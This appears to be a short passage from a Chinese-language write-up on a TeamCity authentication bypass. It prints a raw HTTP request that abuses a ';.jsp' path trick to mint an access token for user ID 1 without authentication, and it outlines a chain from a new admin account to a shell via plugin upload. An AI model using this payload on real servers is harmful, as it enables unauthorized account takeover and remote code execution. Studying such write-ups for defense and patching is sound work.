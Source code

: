 根据用户 ID, 获取用户 token

```http
GET /xxx?jsp=/app/rest/users/id:1/tokens/HaxorToken;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```

![image-20240309182051947](assets/1710740090-73a9291a866445ba846060e67ee9dfd6.png)

...

要实现 RCE，就要通过第一个 payload 创建一个管理员用户，然后进到系统里面利用 TeamCity 的插件功能，上传自己写的插件进行 getshell

## END
